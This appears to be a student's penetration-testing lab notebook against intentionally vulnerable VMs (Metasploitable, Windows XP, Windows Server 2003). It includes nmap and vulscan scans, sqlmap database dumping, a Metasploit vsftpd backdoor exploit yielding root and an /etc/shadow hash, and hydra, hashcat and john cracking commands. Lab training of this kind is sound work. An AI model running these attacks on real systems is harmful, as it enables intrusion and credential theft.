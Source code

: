 # ЛР6

## nmap
```
# scanning for open ports
nmap -p- -O -sV 192.168.37.1/24

## nmap-vulscan

# installation
cd /usr/share/nmap/scripts/
git clone https://github.com/scipag/vulscan.git
ln -s `pwd`/scipag_vulscan /usr/share/nmap/scripts/vulscan 
cd vulscan/utilities/updater/
chmod +x updateFiles.sh
./updateFiles.sh

# scanning cve
nmap --script vulscan/ --script-args vulscandb=cve.csv -sV -oN 101.txt $IP

# enumerate users
nmap -script smb-enum-users.nse -p 445 192.168.37.101

# enumerate auth methods supported
nmap --script ssh-auth-methods $IP
```

## metasploitable
* Link download metasploitable VM `https://sourceforge.net/projects/metasploitable/`
* Metasploitable/SSH/Exploits
`https://charlesreid1.com/wiki/Metasploitable/SSH/Exploits`

* Metasploitable/NFS
`https://charlesreid1.com/wiki/Metasploitable/NFS`

* How to add a module to Metasploit from Exploit-DB
`https://kalinull.medium.com/how-to-add-a-module-to-metasploit-from-exploit-db-d389c2a33f6d`

* The best Beginner guide to hacking Metasploitable2 with Kali Linux
`https://www.youtube.com/playlist?list=PLEAkrOvgdk5RnMOqvQmMeAHl6UFJNiUcs`

* Vulnhub — Kiopitrix Level 1.2(#3) Write Up
`https://medium.com/@tnvo/vulnhub-kiopitrix-level-1-2-3-write-up-7147476d5efa`

### Opening ports
```                                          
PORT      STATE SERVICE     VERSION                                                          
21/tcp    open  ftp         vsftpd 2.3.4                                                     
22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)                     
23/tcp    open  telnet      Linux telnetd                                                    
25/tcp    open  smtp        Postfix smtpd                                                    
53/tcp    open  domain      ISC BIND 9.4.2                                                   
80/tcp    open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)                              
111/tcp   open  rpcbind     2 (RPC #100000)                                                  
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp   open  exec        netkit-rsh rexecd
513/tcp   open  login?
514/tcp   open  shell       Netkit rshd
1099/tcp  open  java-rmi    GNU Classpath grmiregistry
1524/tcp  open  bindshell   Metasploitable root shell
2049/tcp  open  nfs         2-4 (RPC #100003)
2121/tcp  open  ftp         ProFTPD 1.3.1
3306/tcp  open  mysql       MySQL 5.0.51a-3ubuntu5
3632/tcp  open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcp  open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp  open  vnc         VNC (protocol 3.3)
6000/tcp  open  X11         (access denied)
6667/tcp  open  irc         UnrealIRCd
6697/tcp  open  irc         UnrealIRCd
8009/tcp  open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
8787/tcp  open  drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
38446/tcp open  java-rmi    GNU Classpath grmiregistry
43675/tcp open  status      1 (RPC #100024)
57643/tcp open  mountd      1-3 (RPC #100005)
60712/tcp open  nlockmgr    1-4 (RPC #100021)
MAC Address: 00:0C:29:60:20:56 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Port 80 exploitation
```
nikto -h $IP
# find the available databases:
sqlmap -u "http://192.168.37.101/gallery/gallery.php?id=1" — dbs
sqlmap -u "http://192.168.37.101/gallery/gallery.php?id=1” -p id — tables -D gallery
# dump all entries in the dev_account table:
sqlmap -u “http://192.168.37.101/gallery/gallery.php?id=1" -p id -T dev_accounts –dump

OR 

http://192.168.37.101
http://192.168.37.101/mutillidae/robots.txt
http://192.168.37.101/mutillidae/passwords
```

### Exploitng Port 21 FTP
```
# run postgresql sever
service postgresql start
# search for version of ftp server
msf6 > search vsftpd 2.3.4 
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.37.101
RHOSTS => 192.168.37.101
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.37.101:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.37.101:21 - USER: 331 Please specify the password.
[+] 192.168.37.101:21 - Backdoor service has been spawned, handling...
[+] 192.168.37.101:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.37.105:45905 -> 192.168.37.101:6200) at 2022-11-24 20:44:32 +0300

whoami
root
sudo grep msfadmin /etc/shadow
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
```

## Cracking password
how to HACK a password // password cracking with Kali Linux and HashCat
`https://www.youtube.com/watch?v=z4_oqTZJqCo`
```
# using hydra for bruteforce-attack
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://$IP -t 41221
# using hashcat 
sudo hashcat -a 0 -m 500 hashes.txt /usr/share/wordlists/rockyou.txt 
# using john the ripper
john --format=md5crypt hashes.txt
```

## Windows XP
* Link download `https://archive.org/details/WinXPProSP3Russian`

### Opening ports

```
PORT     STATE    SERVICE         VERSION
110/tcp  filtered pop3
135/tcp  open     msrpc           Microsoft Windows RPC
139/tcp  open     netbios-ssn     Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds    Microsoft Windows XP microsoft-ds
548/tcp  filtered afp
587/tcp  filtered submission
1025/tcp open     msrpc           Microsoft Windows RPC
1029/tcp filtered ms-lsa
1720/tcp filtered h323q931
1723/tcp filtered pptp
2717/tcp filtered pn-requester
5000/tcp open     upnp?
8081/tcp filtered blackice-icecap
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.93%I=2%D=11/26%Time=6381DAB9%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(GetReque
SF:st,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(RTSPRequest,1C,"H
SF:TTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
MAC Address: 00:0C:29:52:71:FE (VMware)
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
```
## Windows Server 2003
* Link download `https://archive.org/details/WinServer2003EnterpriseEditionSP1RUS`

### Opening ports
```
PORT     STATE    SERVICE         VERSION
53/tcp   open     domain          Simple DNS Plus
88/tcp   open     kerberos-sec    Microsoft Windows Kerberos (server time: 2022-11-26 09:22:02Z)
135/tcp  open     msrpc           Microsoft Windows RPC
139/tcp  open     netbios-ssn     Microsoft Windows netbios-ssn
389/tcp  open     ldap            Microsoft Windows Active Directory LDAP (Domain: lab6.local, Site: Default-First-Site)
444/tcp  filtered snpp
445/tcp  open     microsoft-ds    Microsoft Windows 2003 or 2008 microsoft-ds
515/tcp  filtered printer
587/tcp  filtered submission
1025/tcp open     msrpc           Microsoft Windows RPC
1027/tcp open     ncacn_http      Microsoft Windows RPC over HTTP 1.0
1029/tcp filtered ms-lsa
3000/tcp filtered ppp
8000/tcp filtered http-alt
8081/tcp filtered blackice-icecap
MAC Address: 00:0C:29:9B:5E:FC (VMware)
Service Info: Host: DC-WIN2003; OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2003
```
